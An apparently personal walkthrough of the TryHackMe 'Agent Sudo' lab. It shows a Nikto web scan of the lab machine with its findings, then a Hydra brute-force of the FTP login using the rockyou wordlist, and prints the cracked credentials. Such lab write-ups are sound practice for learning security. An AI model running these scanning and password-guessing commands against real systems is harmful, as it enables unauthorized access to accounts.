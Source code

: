 ### TryHackMe CTF Challange
### 
###	AGENT SUDO

[link] 'https://tryhackme.com/room/agentsudoctf'

##############################


Name-->	SHASWATA SAHA
Date-->	26/04/2023


#############################

'''
IP : 10.10.143.211
'''


---------------------------------------------------
"
Downloaded Nikto
"


# Run Nikto

┌──(root㉿subhro)-[/home/subhro1530/Desktop/tryhackme/agent_sudo]
└─# nikto -h "http://10.10.143.211"
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.143.211
+ Target Hostname:    10.10.143.211
+ Target Port:        80
+ Start Time:         2023-04-25 14:48:24 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
^C                                                                            


# Use hydra to find password

┌──(subhro1530㉿subhro)-[/etc/opt]
└─$ hydra -l chris -P ~/Documents/rockyou.txt ftp://10.10.143.211
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-25 15:08:07
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.143.211:21/


Username: chris  password: crystal

# Find on yourself now...
